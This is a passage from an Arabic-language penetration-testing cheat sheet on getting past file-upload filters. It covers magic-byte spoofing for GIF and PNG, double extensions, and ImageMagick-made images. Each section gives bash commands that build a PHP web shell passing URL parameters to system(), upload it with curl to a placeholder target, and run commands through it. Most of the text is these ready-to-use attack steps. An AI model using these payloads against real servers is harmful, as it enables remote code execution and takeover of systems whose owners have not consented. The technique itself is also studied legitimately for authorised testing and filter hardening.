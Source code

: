 ### 3. إضافة بايتات سحرية لـ GIF
**شرح**: إضافة تسلسل البايتات السحرية لملف GIF (`GIF87a` أو `GIF89a`) في بداية ملف PHP ليبدو كصورة GIF.
**كيف يعمل**: الخادم يقبل الملف كـ GIF، لكنه قد يُنفذه كـ PHP إذا كان الامتداد .php أو بسبب إعدادات خاطئة.
**متى يُستخدم؟**: عندما يسمح الخادم بملفات GIF ويتحقق من البايتات السحرية.
**المحاولات**:
- إنشاء ملف shell.gif يبدأ بـ `GIF89a` متبوعًا بشيفرة PHP.
**الأوامر**:
- إنشاء الملف:
  ```bash
  echo -ne 'GIF89a' > shell.gif
  echo '<?php system($_GET["cmd"]); ?>' >> shell.gif
  ```
- تحميل الملف:
  ```bash
  curl -X POST -H "Content-Type: image/gif" -F "file=@shell.gif" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.gif?cmd=whoami'
  ```

### 4. دمج البايتات السحرية مع الامتدادات المزدوجة
**شرح**: إضافة بايتات سحرية (مثل `\x89PNG`) مع استخدام امتداد مزدوج (مثل shell.php.png) لتجاوز كل من فحص البايتات والامتداد.
**كيف يعمل**: البايتات السحرية تجعل الملف يبدو كصورة، بينما الامتداد المزدوج يسمح بتنفيذه كـ PHP.
**متى يُستخدم؟**: عندما يتحقق الخادم من البايتات السحرية والامتداد معًا.
**المحاولات**:
- إنشاء ملف shell.php.png يبدأ بـ `\x89PNG`.
- إنشاء ملف shell.php.jpg يبدأ بـ `\xff\xd8\xff`.
**الأوامر**:
- إنشاء الملف:
  ```bash
  echo -ne '\x89PNG\r\n\x1a\n\0\0\0\rIHDR' > shell.php.png
  echo '<?php system($_GET["cmd"]); ?>' >> shell.php.png
  ```
- تحميل الملف:
  ```bash
  curl -X POST -H "Content-Type: image/png" -F "file=@shell.php.png" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php.png?cmd=whoami'
  ```

### 5. استخدام ImageMagick لإنشاء ملف صورة مع شيفرة
**شرح**: استخدام أداة مثل ImageMagick لإنشاء صورة حقيقية تحتوي على شيفرة خبيثة، مع الحفاظ على البايتات السحرية الصحيحة.
**كيف يعمل**: الصورة تكون صالحة لفحص البايتات السحرية، لكنها تحتوي على شيفرة PHP يمكن تنفيذها.
**متى يُستخدم؟**: عندما يتطلب الخادم ملف صورة صالح تمامًا.
**المحاولات**:
- إنشاء صورة JPG تحتوي على شيفرة PHP.
**الأوامر**:
- إنشاء الملف:
  ```bash
  convert -size 110x110 xc:white shell.jpg
  echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
  ```
- تحميل الملف:
  ```bash
  curl -X POST -H "Content-Type: image/jpeg" -F "file=@shell.jpg" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.jpg?cmd=whoami'
  ```